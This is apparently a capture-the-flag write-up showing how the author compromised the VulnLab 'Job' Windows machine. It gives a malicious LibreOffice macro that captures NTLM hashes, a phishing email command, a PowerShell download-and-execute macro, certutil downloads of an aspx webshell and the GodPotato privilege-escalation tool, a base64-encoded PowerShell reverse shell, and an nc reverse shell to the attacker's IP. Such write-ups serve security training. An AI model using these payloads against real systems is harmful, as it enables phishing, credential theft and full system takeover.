

# Job

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Job** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 25,80,445,3389 --min-rate=1000 10.10.106.238
```



Now let’s go to the website running on port 80


> Notice that we found a domain name and the CV should be sent as libre office
> 

Now let’s create a Libre Office macro

```bash
libreoffice
```


Now let’s add a macro.

```bash
Sub Main
	Shell("dir \\\\10.8.5.233\\remomacro")
End Sub
```


Now let’s save it and see if it’s saved


Now let’s Open Responder

```bash
sudo responder -I tun0
```


Now let’s send the document

```bash
sendemail -f "remo <remo@job.local>" -a 'remo.odt' -u 'Phishing You!' -m 'open the file so i can hack you!' -s job.local -t 'career@job.local'
```


Now let’s see if we get a hash


As we see we got the hash of the user!

so let’s try to crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Unfortunately it’s uncrackable so let’s get a reverse shell 

```bash
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.5.233/shell.ps1')""")
End Sub
```


Now let’s open a listener

```bash
nc -lvnp 1337
```


Now let’s send the macro again

```bash
sendemail -f "remo <remo@job.local>" -a 'remo.odt' -u 'Phishing You!' -m 'open the file so i can hack you!' -s job.local -t 'career@job.local'
```


Now let’s see if we go a shell


An we did amazing!

Now let’s see the users privileges

```bash
whoami /all
```


As we see we are in the developers group so let’s go to the web directory

```bash
cd C:\inetpub\wwwroot
```


Now let’s upload apsx webshell 

```bash
certutil -urlcache -f http://10.8.5.233/shell.aspx shell.aspx
```


Now let’s access it from the browser

```bash
http://job.local/shell.aspx
```


Now let’s go and get a revere shell as the IIS service

First open a listener

```bash
nc -nlvp 1338
```


Now let’s execute a reverse shell

```bash
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADUALgAyADMAMwAiACwAMQAzADMAOAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```


Now let’s go back to our listener


And we got access as IIS service

Now let’s see the user privileges

```bash
whoami /all
```


> Notice that we have impersonation privileges
> 

Now let’s go and upload God Potato to help us elevate to system access

```bash
certutil -urlcache -f http://10.8.5.233/gp.exe gp.exe
```


Now let’s see if we got system access

```bash
.\gp.exe -cmd "cmd /c whoami"
```


As we see we got system access

so let’s go and get reverse shell as administrator

First open a listener

```bash
nc -lvnp 1339
```


Now let’s get a reverse shell

```bash
.\gp.exe -cmd "cmd /c C:\windows\temp\nc.exe -nv 10.8.5.233 1339 -e cmd.exe"
```


Now let’s navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Job** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX